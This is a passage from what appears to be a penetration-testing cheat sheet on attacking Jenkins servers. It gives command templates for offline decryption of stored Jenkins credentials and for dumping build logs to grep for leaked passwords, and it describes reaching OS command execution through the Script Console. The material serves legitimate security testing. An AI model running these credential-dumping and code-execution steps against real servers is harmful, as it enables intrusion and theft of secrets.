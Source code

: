 ```java
    }
  }
}
```

###### Credentials dumping through code execution on a Jenkins server

If the `credentials.xml`, `hudson.util.Secret` and `master.key` files could be
retrieved from a `Jenkins` server, the credentials can be retrieved using the   
`jenkins_offline_decrypt` `Python` script:

```
python3 jenkins_offline_decrypt.py <MASTER_KEY_FILE> <HUDSON_UTIL_SECRET_FILE> <CREDENTIALS_XML_FILE>
```

###### Credentials leak in build jobs

Credentials and secrets may leak in build jobs console outputs and environment
variables. Note that the `Mask Passwords Plugin` plugin may be in use to redact
the secrets from the `Console Output` build log.

The `jenkins_dump_builds` Python script can be used to dump all build jobs
past builds.

```
# Source: https://github.com/gquere/pwn_jenkins/blob/master/dump_builds/jenkins_dump_builds.py

python3 jenkins_dump_builds.py -o <OUTPUT_DIRECTORY> <JENKINS_URL | JENKINS_URL [JENKINS_URL2 ...]>

python3 jenkins_dump_builds.py -o <OUTPUT_DIRECTORY> -u "<USERNAME>" -p "<PASSWORD>" <JENKINS_URL | JENKINS_URL [JENKINS_URL2 ...]>
```

The `grep` or `ngp` utilities can then be used to search for matching keywords
in the dump build jobs console outputs and environment variables:

```
grep -rin "<password | KEYWORD>" <OUTPUT_DIRECTORY>

ngp -ri "<password | KEYWORD>" <OUTPUT_DIRECTORY>
```

### Code execution on `Jenkins` servers

###### Through the Jenkins' Script Console

The `Jenkins`'' `Script Console` can be used to execute a `Groovy` script that
will in turn execute operating system commands. Access to the `Script Console`
requires the `Overall/RunScripts` permission (which depending on the access
control of the targeted `Jenkins` appliance can be granted to unauthenticated
users).

The `Script Console`, that will execute code on the `Jenkins` `master`, is
accessible at the `<URL>/script` path. Additionally, code can be executed on
a specific `Jenkins` slaves / agents by accessing the `Script Console` through
the targeted node status page:
